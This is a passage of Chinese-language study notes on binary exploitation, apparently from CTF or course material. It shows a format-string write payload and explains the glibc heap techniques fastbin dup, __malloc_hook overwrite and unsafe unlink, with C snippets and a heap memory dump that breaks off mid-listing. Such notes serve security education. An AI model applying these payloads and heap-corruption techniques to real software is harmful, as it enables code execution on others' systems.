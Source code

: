 ```python
payload = ('%45068c%22$hn%19138c%23$hnAAA%8$p.%9$pAAA%24$s')
```

# Advanced

## Fastbin Dup Attack

### Vunerability
- free時沒有清空pointer或做檢查
- 藉由 <div class='word'>free(a); free(b); free(a);	</div> 繞過double free檢查
	```C
	void *p1 = malloc(0x48);
	void *p2 = malloc(0x48);
	free(p1);
	free(p2);
	free(p1);
	```
### Application
- 此時在malloc相同chuck大小時, 可以任意malloc在**相同chuck**大小位置
	```C
	malloc(0x48, fake_address);
	malloc(0x48, 'aaa');
	malloc(0x48, 'aaa');
	malloc(0x48, your_payload_in_fake_address);
	```

### __malloc_hook
- 在每次malloc時, 會確認malloc_hook是否有值,如果有值會call malloc_hook所存的address,因此可以藉由faskbin dup attack 將function address寫到malloc hook

## Unsafe Unlink
- 條件
	1. 一個指向Heap內的指標
	2. 放該指標的位置已知
	3. 可對該指標寫入多次（可以寫到其他Chunk)

### Unsafe Unlink
- <div class='word'>p->fd=&p-0x18</div>
- <div class='word'>p->bk=&p-0x10</div>

### Application
1. 欺騙它前面Chuck被free掉 -> 對前chuck做unlink
	```
	// chuck 1
	0x603000: 0x0000000000000000 0x0000000000000111
	0x603010: 0x6161616161616161 0x6161616161616161
	0x603020: 0x6161616161616161 0x6161616161616161
	0x603030: 0x6161616161616161 0x6161616161616161
	0x603040: 0x6161616161616161 0x6161616161616161
	0x603050: 0x6161616161616161 0x6161616161616161
	0x603060: 0x6161616161616161 0x6161616161616161
	0x603070: 0x6161616161616161 0x6161616161616161
	0x603080: 0x6161616161616161 0x6161616161616161
	0x603090: 0x6161616161616161 0x6161616161616161
	0x6030a0: 0x6161616161616161 0x6161616161616161
	0x6030b0: 0x6161616161616161 0x6161616161616161
	0x6030c0: 0x6161616161616161 0x6161616161616161
	0x6030d0: 0x6161616161616161 0x6161616161616161
	0x6030e0: 0x6161616161616161 0x6161616161616161